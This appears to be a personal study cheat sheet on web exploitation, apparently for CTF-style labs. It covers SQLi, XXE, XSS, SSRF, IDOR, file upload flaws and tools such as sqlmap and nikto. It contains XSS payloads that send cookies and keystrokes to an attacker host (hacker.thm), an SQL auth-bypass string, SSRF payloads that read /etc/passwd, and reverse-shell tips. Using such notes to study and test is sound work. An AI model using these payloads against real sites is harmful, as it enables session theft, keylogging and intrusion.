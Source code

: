 # Web Exploitation
## Files
- [/robots.txt](https://developers.google.com/search/docs/advanced/robots/intro)
- [/humans.txt](https://humanstxt.org/)
- [/sitemap.xml](https://developers.google.com/search/docs/advanced/sitemaps/overview)
## Tools / Resources
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Tplmap](https://github.com/epinna/tplmap): assists exploiting code injection and SSTI vulnerabilities
- [XSRFProbe](https://github.com/0xInfection/XSRFProbe): CSRF audit and exploitation toolkit
- [WPscan](https://wpscan.com/wordpresses)
    - `wpscan --url <url> --api-token -e vp,vt --api-token <token>`: enumerate worpress vulnerable plugins and themes
- [nikto](https://securitytrails.com/blog/nikto-website-vulnerability-scanner): web server vuln scanner
    - may need to look at `-Help` not all info in man pages
    - use `-until` to set scan duration
        ```bash
        # default scan
        nikto -h <url> -p <port> -output <file.txt>
        ```

## Methods/Techniques
### Broken Authentication
- Re-registration: improper registration implementation, allows registration of "duplicate" users such as " admin" in place of "admin" with identical priveleges. Notice the _space_ in the first username.

### File Inclusion
- [LFI (Local File Inclusion)](https://www.offensive-security.com/metasploit-unleashed/file-inclusion-vulnerabilities/): include file
- [RFI (Remote File Inclusion)](https://secf00tprint.github.io/blog/payload-tester/lfirfi/en)

### SQLi
- [sqlmap](https://sqlmap.org/): automated SQLi scanning tool
- [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- In-Band SQLi: the same method of communication used for the exploit receives the results
    - Error-Based: we get back error messages which are useful for obtaining info enumerating the DB
    - Union-Based: uses a `UNION` to return additional results to a page
- Blind SQLi: 
    - Authentication Bypass: bypass auth with something like `'username=1' or 1=1'; --`
    - Boolean Based: use true/false values or equivalent info returned to the page to enumerate DB
        - This approach requires some fuzzing to confirm the database, table, and column names before querying for specific data
    - Time Based: this is case is similar to Boolean Based, except there won't be any apparent response indicating if a query is true or false. Instead it must be inferred based on how much time the query takes to complete
        - The `SLEEP()` function can be used to introduce delay longside the `UNION` statement
- Out-of-Band SQLi: less common requires specific configuration on the DB server or web app logic making an external network call
    - defined by two communication channels, one to launch the atack and another for gathering results
    
### JWT Vulns / Tools
- [JWT (JSON Web Tokens)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token)
- [JWT Debugger](https://jwt.io/#debugger-io)
- [jwt_tool](https://github.com/ticarpi/jwt_tool)
- [jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker)

### XXE (XML eXternal Entity)
Abuse of XML parsers/data to interact with the bacckend or external systems. 
- XXE (In Band): the attacker receives immediate response to the XXE payload 
- OOB-XXE (Out Of Band) / Blind XXE: there is no immediate response from the web server and the attacker has to reflect the output of their XXE payload to some other file on their own server
- DTD (Document Type Definition) defines an XML schema.

### Broken Access Control: normal user can access 'protected' pages

### XSS ('Cross' Site Scripting)
- Persistent/Stored XSS: Persisting code on a server via website, database etc. The malicious code is executed when a webpage is loaded or a query is made to the server
- Reflected XSS: The payload is part of the victims request to the website. An attacker needs to trick a victim into using a malicious URL. This is the most common type of XSS
- DOM-based XSS: 
- Common XSS Payloads
    - Cookie/Session Stealing (e.g. post cookie to attacker controlled website)
        ```html
        <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
        ```
    - Keylogging (e.g. forward keypresses to attacker controlled website)
        ```html
        <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
        ```
    - Port scanning
    - Unrestricted Upload
        - [OWASP cheatsheet](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
    - Filter Evasion
        - [OWASP cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
        - [cheatsheet2](https://www.netsparker.com/blog/web-security/xss-filter-evasion/)
### Insecure Deserialization: when untrusted data is used to abuse application logic
- Browser exploitation
    - [BeEF](https://github.com/beefproject/beef): open source web browser exploitation framework

### SSRF (Server Side Request Forgery)
- An attacker can make further HTTP requests through a server to other services on the internal network (inside the firewall). The attack usually involves unsanitized input of a URL.
- [Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#file): could include any URLs like:
    ```http
    file:///etc/passwd
    http://localhost:3306
    ```
- [requestbin.com](https://requestbin.com/): useful for catching requests when performing Blind SSRF since no output is reflected
- Look for full and partial URLs used in a GET parameters
- Look for hidden fields in forms that using a URL

### SSTI (Server Side Template Injection)
- Template injection allows an attacker to include template code to retrieve files and execute code on the server.

### IDOR (Insecure Direct Object Reference)
- The act of exploiting a misconfiguration with how user input is handled to access normally inaccessible resources.
- e.g. `http://<target>/note.php?note=1` accessing note=2 even if the note doesn't belong to the logged in user

### API based Authentication Bypass

### File Upload Vulns
- Overwriting existing files on a server
- Uploading and executing shells on a server
- Filtering
    - Extension validation
    - MIME validation
    - File type filtering
        - Magic number validation
    - File length filtering
    - File name filtering
    - File content filtering
        - scan uploaded file to ensure no spoofing of extension, MIME type or magic number
- Fooling content type validation

## Tips & Tricks
- `sudo -l`: lists what programs you can run as sudo as the current user.
- Use `rlwrap` to get a more usable reverse shell
- `python -c 'import pty; pty.spawn("/bin/bash")'`: spawn a fully interactive shell from a reverse shell with python.
- check `~/.bash_history` (and other dot files) for user/pass info etc.
- `python3 -c http.server <port>`: run simple web server at the current directory on `localhost`
- `powershell -c "Invoke-WebRequest -Uri <URL> -Outfile <path>"` download file in `cmd`.
- __ALWAYS__ try default credentials first
